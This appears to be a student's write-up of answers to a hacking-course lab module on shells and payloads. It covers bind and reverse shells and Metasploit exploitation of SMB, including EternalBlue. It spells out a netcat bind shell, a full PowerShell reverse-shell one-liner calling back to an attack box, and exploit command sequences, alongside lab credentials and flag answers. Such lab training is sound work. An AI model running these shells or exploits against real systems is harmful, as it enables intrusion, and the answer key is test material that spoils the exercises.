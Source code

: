 # Shells & Payloads

## Anatomy of a shell

<figure><img src=".gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>



### Questions

1. Which two shell languages did we experiment with in this section? (Format: shellname\&shellname)

**bash\&powershell**

2. In Pwnbox issue the $PSversiontable variable using PowerShell. Submit the edition of PowerShell that is running as the answer.

run pwnbox

`$PSVersionTable`

**Core**

## Bind Shells

### Questions

1. Des is able to issue the command nc -lvnp 443 on a Linux target. What port will she need to connect to from her attack box to successfully establish a shell session?

**443**

2. SSH to the target, create a bind shell, then use netcat to connect to the target using the bind shell you set up. When you have completed the exercise, submit the contents of the flag.txt file located at /customscripts.

`ssh htb-student@10.129.201.134`

* PW: `HTB_@cademy_stdnt!`

**target-machine:** `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | sudo nc -l 10.129.201.134 443 > /tmp/f`

**my machine:** `sudo nc -nv 10.129.201.134 443`

`cd /customscripts`

`cat flag.txt`

**B1nD\_Shells\_r\_cool**

## Reverse Shells

We can run listener (nc) and the target will initiate the connection to us...

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### Questions

1. When establishing a reverse shell session with a target, will the target act as a client or server?

**client**

2. Connect to the target via RDP and establish a reverse shell session with your attack box then submit the hostname of the target box.

`xfreerdp /v: 10.129.247.106 /u:htb-student /p:HTB_@cademy_stdnt!`

`sudo nc -nlvp 443`

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.15.46',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

`whoami`

**shells-win10**\htb-student

## Automating Payloads & Delivery with Metasploit

### Questions

1. What command language interpreter is used to establish a system shell session with the target?

**powershell**

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

2. Exploit the target using what you've learned in this section, then submit the name of the file located in htb-student's Documents folder. (Format: filename.extension)

`nmap -sVC -Pn 10.129.201.160`

`msfconsole -q`

msf -> `search smb`

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

lets use No. 57 (psexec)

msf -> `use 57`

msf -> `options`

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

msf -> `run`

`cd Users\htb-student\Documents`

`dir`

**staffsalaries.txt**

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>



## Infiltrating Windows

Win vuln table

<figure><img src=".gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

### Questions

1. What file type is a text-based DOS script used to perform tasks from the cli? (answer with the file extension, e.g. '.something')

**.bat**

2. What Windows exploit was dropped as a part of the Shadow Brokers leak? (Format: ms bulletin number, e.g. MSxx-xxx)

**MS17-010**

<figure><img src=".gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

3. Gain a shell on the vulnerable target, then submit the contents of the flag.txt file that can be found in C:\\

`nmap -v -A 10.129.201.97`

* host running Win Server 2016 Standard 6.3
*

    <figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

`msfconsole -q`

`use auxiliary/scanner/smb/smb_ms17_010`

`options`

`set RHOSTS 10.129.201.97`

`run`

<figure><img src=".gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

**OK, it is vuln to MS17-010 (ETERNAL BLUE)**

`search eternalblue`

<figure><img src=".gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

`use 1` (psexec)

`set RHOSTS 10.129.201.97`

`set LHOST tun0`

`set LPORT 4444`

`run`

<figure><img src=".gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>



## Infiltrating Unix/Linux

* 70% webservers run on Unix-based system...
* Common questions...what distro, what shell, what functions of network, what app is hosting, any vulns?



### Questions

